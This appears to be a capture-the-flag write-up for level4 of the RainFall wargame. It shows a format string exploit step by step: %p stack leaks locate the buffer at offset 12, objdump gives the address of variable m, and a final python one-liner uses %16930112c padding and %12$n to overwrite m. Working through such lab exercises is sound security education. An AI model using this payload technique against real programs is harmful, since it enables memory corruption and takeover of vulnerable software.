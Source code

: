 We start by opening the binary in [dogbolt](https://dogbolt.org/) here we see that it is the same vulnerability that the previous level.
However this level has a difficulty that the first one didn't have here we must put 16930116 char in `m`,
it is a problem since it exceed pipe capacity or command size.

Ok so will use the same step as the previous level first we will find the address of the buffer we write in:

``` Shell
level4@RainFall:~$ ./level4
AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
AAAA 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```

Here the buffer start at `%12$p`

Ok lets find m `m` with `objdump` :
```
...
08049810 g     O .bss   00000004              m
...
```
Address of `m` : `08049810`
little endian : `\x10\x98\x04\x08`

And the the tricky part :
How can we put so many characters ?
The simple response is by using `printf` to fill character for us
Ok lets tried to do it :

```C
#include <stdio.h>

int main()
{
        printf("%-3c%c\n", 'a','b');
}
```

Output:
```
a  b
```

Ok so now we now to do it lets puts things to gether:
[address][16930116 - 4(address) : %16930112c][the current buffer address]
```Shell
python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit && cat /tmp/exploit | ./level4
```
